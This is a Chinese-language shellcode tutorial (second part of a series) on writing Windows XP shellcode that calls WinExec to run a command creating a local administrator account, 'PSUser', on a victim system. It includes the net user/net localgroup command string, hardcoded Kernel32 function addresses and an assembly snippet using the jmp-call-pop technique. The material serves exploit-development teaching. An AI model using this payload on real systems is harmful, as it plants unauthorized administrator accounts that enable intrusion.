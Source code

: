 恭喜！你已经写出,编译,去除,格式化,同时已经测试了你的第一段shellcode代码!

现在让我们设计一些真正可以看的到的东西吧！

0x02 命令执行shellcode
==================

* * *

这个教程不过是第一个教程的扩展教程;

然而,除了设计简单地睡眠5秒的shellcode外,在受害者系统上它调用WinExec函数来创建一个新的有管理权限的用户.

这个教程也教你定义和定位字符串常量的方法.在这种情况下你想执行的字符串命令.也将干净利落地退出进程而不会产生一个core dump.

这个教程的一些内容是以在http://www.vividmachines.com/shellcode/shellcode.html中被摘取出的信息为基础而讲述的.

我们的目的

我们的shellcode将定位我们的命令行字符串并通过调用WinExec函数在受害者系统上创建一个本地管理用户.要提醒注意的是这个教程将会在你的系统上创建一个管理账户,所以记得删掉它否则你可能发现你已经因为这个账户的创建而被他人黑了.

我们需要什么函数,它们在哪?

从编程经历中（或至少是通过谷歌）,我们知道在一个windows系统上执行一个命令我们需要调用WinExec函数,同时为了干净利索地退出一个进程我们需要调用ExitProcess函数.这两个函数都可以在Kernel32.dll中被找到.

为了定位函数的地址,我们将使用arwin,正如我们在上一个教程中做的那样.如下所示：

> ./arwin.exe Kernel32.dll WinExec arwin - win32 address resolution program - by steve hanna - v.01     WinExec is located at 0x7c8615b5 in Kernel32.dll

WinExec函数位于Kernel32.dll中的0x7c8615b5地址上

> ./arwin.exe Kernel32.dll ExitProcess     arwin - win32 address resolution program - by steve hanna - v.01

ExitProcess位于Kernel32.dll中的0x7c81ca82地址上你得到的地址或许和我的不同.这取决于操作系统和服务包.我正使用WindowsXP SP2.这意味着你的shellcode将只会在相同的操作系统和你使用的服务包上正常工作因为我们已经硬编码了函数的内存地址.这甚至可能是因你已经安装了补丁文件而略有不同的.这是更高级的可以被用来动态定位Kernel32.dll和函数地址的技术;然而,那将会在之后的教程中细说.

定义并定位字符串常量

下面即是我们想在我们的shellcode中定义的字符串常量,我们将执行的命令来创建一个用户名是”PSUser”密码是”PSPasswd”的账户

>  'cmd.exe /c net user PSUser PSPasswd /ADD && net localgroup Administrators /ADD PSUser'

下面小段代码示范了在我们的代码末尾定义一个字符串常量,同时在栈顶上定位字符串的方法;

```
+--------------- [snip] ---------------+
  jmp short GetCommand;Jump to where our string is located ("GetCommand" label below)
  CommandReturn:;Create a label we can call to return here.
  pop ebx;the "call" operation below has pushed its return address onto the stack, which we have designed to point to our string - so pop the address of the string off the stack and into ebx.
;At this point, ebx points to our string.
+--------------- [snip] ---------------+
GetCommand: ;Create the "GetCommand" label where our string is located
call CommandReturn ;"call" is like jump, but also pushes the return address (next instruction after call) onto the stack. Since our string is defined immediately after this instruction, the return address points to the address of our string.”call”
db "cmd.exe /c net user PSUser PSPasswd /ADD && net localgroup Administrators /ADD PSUser";Write the raw bytes into the shellcode that represent our string.        
db 0x00 ;Terminate our string with a null character.
+--------------- [snip] ---------------+

```
